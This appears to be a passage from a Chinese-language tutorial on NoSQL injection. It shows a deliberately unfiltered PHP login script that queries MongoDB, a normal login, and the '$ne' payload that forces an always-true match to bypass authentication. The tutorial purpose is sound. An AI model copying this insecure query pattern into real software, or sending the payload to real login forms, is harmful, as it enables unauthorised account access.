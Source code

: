 然后编写 index.php：

```php
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];
$password = $_POST['password'];

$query = new MongoDB\Driver\Query(array(
    'username' => $username,
    'password' => $password
));

$result = $manager->executeQuery('test.users', $query)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```

如下，当正常用户想要登陆 whoami 用户时，POST 方法提交的数据如下：

```php
username=whoami&password=657260
```

进入 PHP 后的程序数据如下：

```php
array(
    'username' => 'whoami',
    'password' => '657260'
)
```

进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({'username':'whoami', 'password':'657260'})

{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
```

我们从代码中可以看出，这里对用户输入没有做任何过滤与校验，那么我们可以通过 `$ne` 关键字构造一个永真的条件就可以完成 NoSQL 注入：

```sql
username[$ne]=1&password[$ne]=1
```
